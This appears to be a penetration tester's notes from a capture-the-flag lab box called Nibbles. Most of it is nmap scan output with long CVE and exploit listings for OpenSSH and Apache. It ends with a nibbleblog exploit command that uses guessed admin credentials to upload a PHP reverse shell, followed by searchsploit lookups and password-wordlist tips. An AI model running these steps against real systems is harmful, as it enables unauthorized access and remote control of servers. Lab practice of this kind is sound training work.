

                                                                                                                    

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Making a script scan on all ports
                                                                                                                    

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

----------------------Starting UDP Scan------------------------
                                                                                                                    
UDP needs to be run as root, running with sudo...
[sudo] password for kali: 

No UDP ports are open
                                                                                                                    

---------------------Starting Vulns Scan-----------------------
                                                                                                                    
Running CVE scan on all ports
                                                                                                                    

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:7.2p2: 
|       PACKETSTORM:140070      7.8     https://vulners.com/packetstorm/PACKETSTORM:140070      *EXPLOIT*
|       EXPLOITPACK:5BCA798C6BA71FAE29334297EC0B6A09    7.8     https://vulners.com/exploitpack/EXPLOITPACK:5BCA798C6BA71FAE29334297EC0B6A09        *EXPLOIT*
|       EDB-ID:40888    7.8     https://vulners.com/exploitdb/EDB-ID:40888      *EXPLOIT*
|       CVE-2016-8858   7.8     https://vulners.com/cve/CVE-2016-8858
|       CVE-2016-6515   7.8     https://vulners.com/cve/CVE-2016-6515
|       1337DAY-ID-26494        7.8     https://vulners.com/zdt/1337DAY-ID-26494        *EXPLOIT*
|       SSV:92579       7.5     https://vulners.com/seebug/SSV:92579    *EXPLOIT*
|       CVE-2016-10009  7.5     https://vulners.com/cve/CVE-2016-10009
|       1337DAY-ID-26576        7.5     https://vulners.com/zdt/1337DAY-ID-26576        *EXPLOIT*
|       SSV:92582       7.2     https://vulners.com/seebug/SSV:92582    *EXPLOIT*
|       CVE-2016-10012  7.2     https://vulners.com/cve/CVE-2016-10012
|       CVE-2015-8325   7.2     https://vulners.com/cve/CVE-2015-8325
|       PACKETSTORM:151227      0.0     https://vulners.com/packetstorm/PACKETSTORM:151227      *EXPLOIT*
|       PACKETSTORM:140261      0.0     https://vulners.com/packetstorm/PACKETSTORM:140261      *EXPLOIT*
|       PACKETSTORM:138006      0.0     https://vulners.com/packetstorm/PACKETSTORM:138006      *EXPLOIT*
|       PACKETSTORM:137942      0.0     https://vulners.com/packetstorm/PACKETSTORM:137942      *EXPLOIT*
|       MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS-        0.0     https://vulners.com/metasploit/MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS-     *EXPLOIT*
|_      1337DAY-ID-30937        0.0     https://vulners.com/zdt/1337DAY-ID-30937        *EXPLOIT*
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| vulners: 
|   cpe:/a:apache:http_server:2.4.18: 
|       PACKETSTORM:171631      7.5     https://vulners.com/packetstorm/PACKETSTORM:171631      *EXPLOIT*
|       EDB-ID:51193    7.5     https://vulners.com/exploitdb/EDB-ID:51193      *EXPLOIT*
|       CVE-2022-31813  7.5     https://vulners.com/cve/CVE-2022-31813
|       CVE-2022-23943  7.5     https://vulners.com/cve/CVE-2022-23943
|       CVE-2022-22720  7.5     https://vulners.com/cve/CVE-2022-22720
|       CVE-2021-44790  7.5     https://vulners.com/cve/CVE-2021-44790
|       CVE-2021-39275  7.5     https://vulners.com/cve/CVE-2021-39275
|       CVE-2021-26691  7.5     https://vulners.com/cve/CVE-2021-26691
|       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679
|       CVE-2017-3169   7.5     https://vulners.com/cve/CVE-2017-3169
|       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167
|       CNVD-2022-73123 7.5     https://vulners.com/cnvd/CNVD-2022-73123
|       CNVD-2022-03225 7.5     https://vulners.com/cnvd/CNVD-2022-03225
|       CNVD-2021-102386        7.5     https://vulners.com/cnvd/CNVD-2021-102386
|       1337DAY-ID-38427        7.5     https://vulners.com/zdt/1337DAY-ID-38427        *EXPLOIT*
|       EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB    7.2     https://vulners.com/exploitpack/EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB        *EXPLOIT*
|       EDB-ID:46676    7.2     https://vulners.com/exploitdb/EDB-ID:46676      *EXPLOIT*
|       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
|       1337DAY-ID-32502        7.2     https://vulners.com/zdt/1337DAY-ID-32502        *EXPLOIT*
|_      PACKETSTORM:152441      0.0     https://vulners.com/packetstorm/PACKETSTORM:152441      *EXPLOIT*
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Running Vuln scan on all ports
This may take a while, depending on the number of detected services..                                               
                                                                                                                    

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:7.2p2: 
|       PACKETSTORM:140070      7.8     https://vulners.com/packetstorm/PACKETSTORM:140070      *EXPLOIT*
|       EXPLOITPACK:5BCA798C6BA71FAE29334297EC0B6A09    7.8     https://vulners.com/exploitpack/EXPLOITPACK:5BCA798C6BA71FAE29334297EC0B6A09        *EXPLOIT*
|       EDB-ID:40888    7.8     https://vulners.com/exploitdb/EDB-ID:40888      *EXPLOIT*
|       CVE-2016-8858   7.8     https://vulners.com/cve/CVE-2016-8858
|       CVE-2016-6515   7.8     https://vulners.com/cve/CVE-2016-6515
|       1337DAY-ID-26494        7.8     https://vulners.com/zdt/1337DAY-ID-26494        *EXPLOIT*
|       SSV:92579       7.5     https://vulners.com/seebug/SSV:92579    *EXPLOIT*
|       CVE-2016-10009  7.5     https://vulners.com/cve/CVE-2016-10009
|       1337DAY-ID-26576        7.5     https://vulners.com/zdt/1337DAY-ID-26576        *EXPLOIT*
|       SSV:92582       7.2     https://vulners.com/seebug/SSV:92582    *EXPLOIT*
|       CVE-2016-10012  7.2     https://vulners.com/cve/CVE-2016-10012
|       CVE-2015-8325   7.2     https://vulners.com/cve/CVE-2015-8325
|       SSV:92580       6.9     https://vulners.com/seebug/SSV:92580    *EXPLOIT*
|       CVE-2016-10010  6.9     https://vulners.com/cve/CVE-2016-10010
|       1337DAY-ID-26577        6.9     https://vulners.com/zdt/1337DAY-ID-26577        *EXPLOIT*
|       EXPLOITPACK:98FE96309F9524B8C84C508837551A19    5.8     https://vulners.com/exploitpack/EXPLOITPACK:98FE96309F9524B8C84C508837551A19        *EXPLOIT*
|       EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    5.8     https://vulners.com/exploitpack/EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97        *EXPLOIT*
|       EDB-ID:46516    5.8     https://vulners.com/exploitdb/EDB-ID:46516      *EXPLOIT*
|       EDB-ID:46193    5.8     https://vulners.com/exploitdb/EDB-ID:46193      *EXPLOIT*
|       CVE-2019-6111   5.8     https://vulners.com/cve/CVE-2019-6111
|       1337DAY-ID-32328        5.8     https://vulners.com/zdt/1337DAY-ID-32328        *EXPLOIT*
|       1337DAY-ID-32009        5.8     https://vulners.com/zdt/1337DAY-ID-32009        *EXPLOIT*
|       SSV:91041       5.5     https://vulners.com/seebug/SSV:91041    *EXPLOIT*
|       PACKETSTORM:140019      5.5     https://vulners.com/packetstorm/PACKETSTORM:140019      *EXPLOIT*
|       PACKETSTORM:136234      5.5     https://vulners.com/packetstorm/PACKETSTORM:136234      *EXPLOIT*
|       EXPLOITPACK:F92411A645D85F05BDBD274FD222226F    5.5     https://vulners.com/exploitpack/EXPLOITPACK:F92411A645D85F05BDBD274FD222226F        *EXPLOIT*
|       EXPLOITPACK:9F2E746846C3C623A27A441281EAD138    5.5     https://vulners.com/exploitpack/EXPLOITPACK:9F2E746846C3C623A27A441281EAD138        *EXPLOIT*
|       EXPLOITPACK:1902C998CBF9154396911926B4C3B330    5.5     https://vulners.com/exploitpack/EXPLOITPACK:1902C998CBF9154396911926B4C3B330        *EXPLOIT*
|       EDB-ID:40858    5.5     https://vulners.com/exploitdb/EDB-ID:40858      *EXPLOIT*
|       EDB-ID:40119    5.5     https://vulners.com/exploitdb/EDB-ID:40119      *EXPLOIT*
|       EDB-ID:39569    5.5     https://vulners.com/exploitdb/EDB-ID:39569      *EXPLOIT*
|       CVE-2016-3115   5.5     https://vulners.com/cve/CVE-2016-3115
|       SSH_ENUM        5.0     https://vulners.com/canvas/SSH_ENUM     *EXPLOIT*
|       PACKETSTORM:150621      5.0     https://vulners.com/packetstorm/PACKETSTORM:150621      *EXPLOIT*
|       EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0    5.0     https://vulners.com/exploitpack/EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0        *EXPLOIT*
|       EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283    5.0     https://vulners.com/exploitpack/EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283        *EXPLOIT*
|       EDB-ID:45939    5.0     https://vulners.com/exploitdb/EDB-ID:45939      *EXPLOIT*
|       EDB-ID:45233    5.0     https://vulners.com/exploitdb/EDB-ID:45233      *EXPLOIT*
|       CVE-2018-15919  5.0     https://vulners.com/cve/CVE-2018-15919
|       CVE-2018-15473  5.0     https://vulners.com/cve/CVE-2018-15473
|       CVE-2017-15906  5.0     https://vulners.com/cve/CVE-2017-15906
|       CVE-2016-10708  5.0     https://vulners.com/cve/CVE-2016-10708
|       1337DAY-ID-31730        5.0     https://vulners.com/zdt/1337DAY-ID-31730        *EXPLOIT*
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       EXPLOITPACK:802AF3229492E147A5F09C7F2B27C6DF    4.3     https://vulners.com/exploitpack/EXPLOITPACK:802AF3229492E147A5F09C7F2B27C6DF        *EXPLOIT*
|       EXPLOITPACK:5652DDAA7FE452E19AC0DC1CD97BA3EF    4.3     https://vulners.com/exploitpack/EXPLOITPACK:5652DDAA7FE452E19AC0DC1CD97BA3EF        *EXPLOIT*
|       EDB-ID:40136    4.3     https://vulners.com/exploitdb/EDB-ID:40136      *EXPLOIT*
|       EDB-ID:40113    4.3     https://vulners.com/exploitdb/EDB-ID:40113      *EXPLOIT*
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2016-6210   4.3     https://vulners.com/cve/CVE-2016-6210
|       1337DAY-ID-25440        4.3     https://vulners.com/zdt/1337DAY-ID-25440        *EXPLOIT*
|       1337DAY-ID-25438        4.3     https://vulners.com/zdt/1337DAY-ID-25438        *EXPLOIT*
|       CVE-2019-6110   4.0     https://vulners.com/cve/CVE-2019-6110
|       CVE-2019-6109   4.0     https://vulners.com/cve/CVE-2019-6109
|       CVE-2018-20685  2.6     https://vulners.com/cve/CVE-2018-20685
|       SSV:92581       2.1     https://vulners.com/seebug/SSV:92581    *EXPLOIT*
|       CVE-2016-10011  2.1     https://vulners.com/cve/CVE-2016-10011
|       PACKETSTORM:151227      0.0     https://vulners.com/packetstorm/PACKETSTORM:151227      *EXPLOIT*
|       PACKETSTORM:140261      0.0     https://vulners.com/packetstorm/PACKETSTORM:140261      *EXPLOIT*
|       PACKETSTORM:138006      0.0     https://vulners.com/packetstorm/PACKETSTORM:138006      *EXPLOIT*
|       PACKETSTORM:137942      0.0     https://vulners.com/packetstorm/PACKETSTORM:137942      *EXPLOIT*
|       MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS-        0.0     https://vulners.com/metasploit/MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS-     *EXPLOIT*
|       CVE-2023-29323  0.0     https://vulners.com/cve/CVE-2023-29323
|_      1337DAY-ID-30937        0.0     https://vulners.com/zdt/1337DAY-ID-30937        *EXPLOIT*
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| vulners: 
|   cpe:/a:apache:http_server:2.4.18: 
|       PACKETSTORM:171631      7.5     https://vulners.com/packetstorm/PACKETSTORM:171631      *EXPLOIT*
|       EDB-ID:51193    7.5     https://vulners.com/exploitdb/EDB-ID:51193      *EXPLOIT*
|       CVE-2022-31813  7.5     https://vulners.com/cve/CVE-2022-31813
|       CVE-2022-23943  7.5     https://vulners.com/cve/CVE-2022-23943
|       CVE-2022-22720  7.5     https://vulners.com/cve/CVE-2022-22720
|       CVE-2021-44790  7.5     https://vulners.com/cve/CVE-2021-44790
|       CVE-2021-39275  7.5     https://vulners.com/cve/CVE-2021-39275
|       CVE-2021-26691  7.5     https://vulners.com/cve/CVE-2021-26691
|       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679
|       CVE-2017-3169   7.5     https://vulners.com/cve/CVE-2017-3169
|       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167
|       CNVD-2022-73123 7.5     https://vulners.com/cnvd/CNVD-2022-73123
|       CNVD-2022-03225 7.5     https://vulners.com/cnvd/CNVD-2022-03225
|       CNVD-2021-102386        7.5     https://vulners.com/cnvd/CNVD-2021-102386
|       1337DAY-ID-38427        7.5     https://vulners.com/zdt/1337DAY-ID-38427        *EXPLOIT*
|       EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB    7.2     https://vulners.com/exploitpack/EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB        *EXPLOIT*
|       EDB-ID:46676    7.2     https://vulners.com/exploitdb/EDB-ID:46676      *EXPLOIT*
|       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
|       1337DAY-ID-32502        7.2     https://vulners.com/zdt/1337DAY-ID-32502        *EXPLOIT*
|       FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8    6.8     https://vulners.com/githubexploit/FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8      *EXPLOIT*
|       CVE-2021-40438  6.8     https://vulners.com/cve/CVE-2021-40438
|       CVE-2020-35452  6.8     https://vulners.com/cve/CVE-2020-35452
|       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312
|       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715
|       CVE-2016-5387   6.8     https://vulners.com/cve/CVE-2016-5387
|       CNVD-2022-03224 6.8     https://vulners.com/cnvd/CNVD-2022-03224
|       8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2    6.8     https://vulners.com/githubexploit/8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2      *EXPLOIT*
|       4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332    6.8     https://vulners.com/githubexploit/4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332      *EXPLOIT*
|       4373C92A-2755-5538-9C91-0469C995AA9B    6.8     https://vulners.com/githubexploit/4373C92A-2755-5538-9C91-0469C995AA9B      *EXPLOIT*
|       0095E929-7573-5E4A-A7FA-F6598A35E8DE    6.8     https://vulners.com/githubexploit/0095E929-7573-5E4A-A7FA-F6598A35E8DE      *EXPLOIT*
|       CVE-2022-28615  6.4     https://vulners.com/cve/CVE-2022-28615
|       CVE-2021-44224  6.4     https://vulners.com/cve/CVE-2021-44224
|       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082
|       CVE-2017-9788   6.4     https://vulners.com/cve/CVE-2017-9788
|       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
|       CVE-2022-22721  5.8     https://vulners.com/cve/CVE-2022-22721
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
|       1337DAY-ID-33577        5.8     https://vulners.com/zdt/1337DAY-ID-33577        *EXPLOIT*
|       SSV:96537       5.0     https://vulners.com/seebug/SSV:96537    *EXPLOIT*
|       EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D    5.0     https://vulners.com/exploitpack/EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D        *EXPLOIT*
|       EXPLOITPACK:2666FB0676B4B582D689921651A30355    5.0     https://vulners.com/exploitpack/EXPLOITPACK:2666FB0676B4B582D689921651A30355        *EXPLOIT*
|       EDB-ID:42745    5.0     https://vulners.com/exploitdb/EDB-ID:42745      *EXPLOIT*
|       EDB-ID:40909    5.0     https://vulners.com/exploitdb/EDB-ID:40909      *EXPLOIT*
|       CVE-2022-30556  5.0     https://vulners.com/cve/CVE-2022-30556
|       CVE-2022-29404  5.0     https://vulners.com/cve/CVE-2022-29404
|       CVE-2022-28614  5.0     https://vulners.com/cve/CVE-2022-28614
|       CVE-2022-26377  5.0     https://vulners.com/cve/CVE-2022-26377
|       CVE-2022-22719  5.0     https://vulners.com/cve/CVE-2022-22719
|       CVE-2021-34798  5.0     https://vulners.com/cve/CVE-2021-34798
|       CVE-2021-33193  5.0     https://vulners.com/cve/CVE-2021-33193
|       CVE-2021-26690  5.0     https://vulners.com/cve/CVE-2021-26690
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|       CVE-2019-17567  5.0     https://vulners.com/cve/CVE-2019-17567
|       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
|       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196
|       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
|       CVE-2018-17189  5.0     https://vulners.com/cve/CVE-2018-17189
|       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333
|       CVE-2018-1303   5.0     https://vulners.com/cve/CVE-2018-1303
|       CVE-2017-9798   5.0     https://vulners.com/cve/CVE-2017-9798
|       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
|       CVE-2016-8743   5.0     https://vulners.com/cve/CVE-2016-8743
|       CVE-2016-8740   5.0     https://vulners.com/cve/CVE-2016-8740
|       CVE-2016-4979   5.0     https://vulners.com/cve/CVE-2016-4979
|       CNVD-2022-73122 5.0     https://vulners.com/cnvd/CNVD-2022-73122
|       CNVD-2022-53584 5.0     https://vulners.com/cnvd/CNVD-2022-53584
|       CNVD-2022-53582 5.0     https://vulners.com/cnvd/CNVD-2022-53582
|       CNVD-2022-03223 5.0     https://vulners.com/cnvd/CNVD-2022-03223
|       1337DAY-ID-28573        5.0     https://vulners.com/zdt/1337DAY-ID-28573        *EXPLOIT*
|       CVE-2020-11985  4.3     https://vulners.com/cve/CVE-2020-11985
|       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
|       CVE-2018-1302   4.3     https://vulners.com/cve/CVE-2018-1302
|       CVE-2018-1301   4.3     https://vulners.com/cve/CVE-2018-1301
|       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
|       CVE-2016-4975   4.3     https://vulners.com/cve/CVE-2016-4975
|       CVE-2016-1546   4.3     https://vulners.com/cve/CVE-2016-1546
|       4013EC74-B3C1-5D95-938A-54197A58586D    4.3     https://vulners.com/githubexploit/4013EC74-B3C1-5D95-938A-54197A58586D      *EXPLOIT*
|       1337DAY-ID-33575        4.3     https://vulners.com/zdt/1337DAY-ID-33575        *EXPLOIT*
|       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
|       CVE-2016-8612   3.3     https://vulners.com/cve/CVE-2016-8612
|       PACKETSTORM:152441      0.0     https://vulners.com/packetstorm/PACKETSTORM:152441      *EXPLOIT*
|       CVE-2023-25690  0.0     https://vulners.com/cve/CVE-2023-25690
|       CVE-2022-37436  0.0     https://vulners.com/cve/CVE-2022-37436
|       CVE-2022-36760  0.0     https://vulners.com/cve/CVE-2022-36760
|_      CVE-2006-20001  0.0     https://vulners.com/cve/CVE-2006-20001
|_http-csrf: Couldn't find any CSRF vulnerabilities.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

cat: nmap/Script_10.129.236.57.nmap---------------------Recon Recommendations---------------------
                                                                                                                    
: No such file or directory

Web Servers Recon:
                                                                                                                    
nikto -host "http://10.129.236.57:80" | tee "recon/nikto_10.129.236.57_80.txt"
ffuf -ic -w /usr/share/wordlists/dirb/common.txt -e '.html ' -u "http://10.129.236.57:80/FUZZ" | tee "recon/ffuf_10.129.236.57_80.txt"

Which commands would you like to run?               

<!-- /nibbleblog/ directory. Nothing interesting here! -->

python nibbleblog.py --url http://nibbles/nibbleblog/ --username admin --password nibbles --payload php_reverse.php

 python nibbleblog.py --url http://nibbles/nibbleblog/ --username admin --password nibbles --payload php_reverse.php
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.

searchsploit nibbleblog
searchsploit -m exploits/php/remote/33489.rb

seclists
https://github.com/danielmiessler/SecLists

try rockyou-50.txt which is just 10000 words instead of rockyou which contains 14 million passwords

